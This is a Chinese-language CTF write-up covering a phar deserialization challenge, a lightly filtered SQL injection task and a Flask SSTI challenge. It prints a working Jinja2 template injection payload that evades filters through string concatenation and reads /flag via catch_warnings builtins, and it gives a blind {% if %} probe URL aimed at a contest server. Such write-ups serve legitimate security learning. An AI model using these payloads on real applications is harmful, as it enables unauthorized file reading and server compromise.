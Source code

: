 这里的本意是构造一个文件泄露，只要输入路径就可以看到除了flag以外靶机上的所有文件，这样就可以去读到该题目包含的所有源码（但是看这题没什么人做我就中午把源码放上去降低难度了）

并且开头引入了`config.php`，里面只有一个类，定义了析构函数，里面还有一个`cat /flag`那这就很明显是一个反序列化的漏洞了，接下来找利用点。

根据我给的hint，phar反序列化，是很容易就可以找到相关资料的（我还特意自己去搜了一下，无论是google还是百度都是在搜索第一位....）

这里放一个链接 https://paper.seebug.org/680/ 

链接里具体介绍了构造phar触发反序列化的步骤，我就不再赘述

最后将构造好的phar上传，后缀名任意，在path中直接传入phar协议访问该phar文件就可以触发反序列化获得flag了

## easySQL

11 solved

### 解题思路

原题是过滤了` `和`=`号，不过早上上线后考虑了题目难度，就在维护的时候删去了`=`号的过滤，就变成真的签到题了，这里就不细说了，绕过的方法很简单

## SSTI

0 solved

### 参考题目

参考以下 ssti 题目修改了一下

```url
https://evi0s.com/2018/11/26/深入ssti-从nctf2018两道flask看bypass新姿势/
```

原题就是过滤关键词，绕过关键词的方法有很多，数组+字符串连接，或者编码绕过，这里给其中一个 payload（用的是子类catch_warnings） 出来

```python
{{[]['__cl'+'ass__']['__ba'+'se__']['__subc'+'lasses__']()[388]['__in'+'it__']['__glo'+'bals__']['__buil'+'tins__']['op'+'en']('/flag', 'r').read()}}
```

不熟悉 flask ssti 需要自己去翻资料理解，以上面的 payload 作为例子，大致思路就是用一个数据类型（`数组[]`）得到`object`类，然后搜索有`__init__.__globas__`变量的子类（这里用的是`catch_warnings`，当然其他也可以），然后直接调用 open 函数读 flag。至于如果找到合适的子类，自己找资料，然后根据输出结果用记事本处理一下得到下标，或者暴力一点就是 bp 爆破，一般记事本比较快，非特殊情况不用 bp。

### 出题思路

在上面的过滤基础上再把`{{、}}`也给过滤了，这时候我们就不能用一般的`{{xxxxx}}`的形式进行模板注入了，稍微百度一下绕过方法，那就是用`{% if xxxx %}kkkk{% endif %}` 进行盲注。

### 解题步骤

#### 暴力找子类

根据提示得知 python 版本为 3.6，用 bp 遍历数组下表找到`catch_warnings`的位置，经检验结果是 388。

```python
http://222.201.144.148:19000/{%if []['__cl'+'ass__']['__ba'+'se__']['__subc'+'lasses__']()[0]['__na'+'me__']=='catch_warnings' %}kkkk{%endif%}
```
